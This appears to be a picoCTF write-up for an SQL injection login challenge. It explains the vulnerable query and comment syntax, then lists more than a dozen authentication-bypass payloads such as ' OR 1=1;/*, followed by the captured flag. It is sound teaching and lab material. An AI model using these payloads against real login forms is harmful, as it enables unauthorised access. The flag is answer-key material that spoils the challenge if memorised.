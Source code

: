 ![Task desc](../assets/images/SQLiLite_image_1.png)

This task involves the use of classic SQL injection.

---

The web application expects a normal request of type:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


We need:

* close the name field: `name=' '`
* add a condition that will always return `true`
* truncate the rest of the query 

The last condition can be done by inserting a comment symbol or end of query symbol:


```sql
comments in SQL (worked with this task):
#
--
/* */ (open close)
;%00	Nullbyte

end of query:
;
```


Therefore, according to these rules, we will form a simple injection:


```sql
' OR 1=1;/*
```


![image_2](../assets/images/SQLiLite_image_2.png)


I experimented with queries, tried to compose my own injections, and tried several options from [SQLi payload list](https://github.com/payloadbox/sql-injection-payload-list). List of injections that also worked:

> [!TIP]
> Explanations to SQLi I left it here: [*click*](../../notes/Understanding%20SQL%20Injections.md)

```
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1;                # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /*    # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00              # every int/float/double number passes
33' OR 1=1 -- 
```


Make sure there is an odd number of brackets in the payload


```sql
SQL query: SELECT * FROM users WHERE name='''' OR 1=1;' AND password='123123'
```


`picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}`
